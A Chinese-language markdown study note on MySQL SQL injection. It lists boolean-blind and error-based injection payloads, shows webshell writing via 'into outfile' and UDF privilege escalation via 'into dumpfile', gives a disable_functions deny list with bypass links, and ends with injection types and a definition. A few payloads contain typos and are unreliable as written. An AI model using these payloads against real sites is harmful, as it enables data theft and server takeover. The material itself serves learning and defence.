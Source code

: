 

#### Mysql一个@和两个@什么区别
- @为用户变量，使用`SET @var1=1`赋值
- @@ 为系统变量 ，包括全局变量`show global variables \G;`和会话变量`show session variables \G;`


#### 注入/绕过常用的函数
1. 基于布尔SQL盲注
    - `left(database(),1)>'s'`
    - `ascii(substr((select table_name information_schema.tables where tables_schema=database()limit 0,1),1,1))=101 --+`
    - `ascii(substr((select database()),1,1))=98`
    - `ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1))>98%23`
    - `regexp`正则注入 `select user() regexp '^[a-z]';`
    - `select user() like 'ro%'`
2. 基于报错的SQL盲注
    - `Select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a;  `


#### MySQL存储过程

#### 各种写shell的问题
1. 写shell用什么函数？ 
    - `select '<?php phpinfo()> into outfile 'D:/shelltest.php'`
    - `dumpfile`
    - `file_put_contents`
2. outfile不能用了怎么办？ `select unhex('udf.dll hex code') into dumpfile 'c:/mysql/mysql server 5.1/lib/plugin/xxoo.dll';`可以UDF提权 https://www.cnblogs.com/milantgh/p/5444398.html
3. dumpfile和outfile有什么不一样？outfile适合导库，在行末尾会写入新行并转义，因此不能写入二进制可执行文件。
4. sleep()能不能写shell？
5. 写shell的条件？
    - 用户权限
    - 目录读写权限
    - 防止命令执行：`disable_functions`，禁止了`disable_functions=phpinfo,exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source`，但是可以用dl扩展执行命令或者ImageMagick漏洞 https://www.waitalone.cn/imagemagic-bypass-disable_function.html
    - open_basedir: 将用户可操作的文件限制在某目录下



#### 

### 注入类型

1. 基于报错注入
2. 基于布尔的注入，根据返回页面判断条件真假的注入
3. 基于时间的盲注，不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。
4. 宽字节注入
5. 联合查询，可以使用 union 的情况下的注入。
6. 堆查询注入，可以同时执行多条语句的执行时的注入。

### SQL注入的原理
通过把SQL命令插入到Web表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。通常未经检查或者未经充分检查的用户输入数据或代码编写问题，意外变成了代码被执行。
